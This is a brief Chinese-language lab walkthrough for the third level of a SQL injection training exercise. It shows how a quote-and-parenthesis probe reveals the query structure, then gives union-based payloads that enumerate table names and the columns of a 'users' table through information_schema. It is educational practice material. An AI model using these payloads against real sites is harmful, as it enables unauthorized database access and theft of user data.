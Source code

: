 # 第三关
# series-3

![image](./images/image17.png)

测试是什么类型的注入
?id=1'
![image](./images/image18.png)
回显报错
但是看到有一个反括号说语法错误，可以连想到它的语句是这样的
select * from user where id=('1');
这时候可以使用反括号将前面的括号闭合来进行注入
![image](./images/image19.png)

这时候可以使用联合查询来进行注入了
![image](./images/image20.png)
?id=-1') union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='security'--+
![image](./images/image21.png)
?id=-1') union select 1,2,group_concat(column_name) from information_schema.columns where table_name='users'--+
![image](./images/image22.png)
![image](./images/image23.png)
